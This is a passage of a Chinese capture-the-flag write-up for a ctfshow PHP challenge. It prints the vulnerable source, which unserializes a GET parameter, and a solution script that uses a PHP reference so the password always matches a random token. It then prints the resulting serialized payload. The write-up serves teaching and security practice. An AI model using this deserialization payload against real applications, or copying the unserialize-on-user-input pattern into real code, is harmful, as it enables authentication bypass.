# @Date:   2020-12-04 23:52:24
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-05 00:17:08
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
 
error_reporting(0);
include('flag.php');
highlight_file(__FILE__);
class ctfshowAdmin{
    public $token;
    public $password;
 
    public function __construct($t,$p){
        $this->token=$t;
        $this->password = $p;
    }
    public function login(){
        return $this->token===$this->password;
    }
}
 
$ctfshow = unserialize($_GET['ctfshow']);
$ctfshow->token=md5(mt_rand());
 
if($ctfshow->login()){
    echo $flag;
}
 
```

这道题只需要让token全等于password即可，但是这里token进行了md5加密，而且还是随机数，但是不用慌这里用&引用，让password引用token的值即可

构造链子：

```
<?php

class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct($t,$p){
        $this->token=$t;
        $this->password = &$this->token;	//用&引用token的值，这样不管token怎样变化，password永远和token相等
    }

}
echo serialize(new ctfshowAdmin('1','1'));

output：O:12:"ctfshowAdmin":2:{s:5:"token";s:1:"1";s:8:"password";R:2;}
```


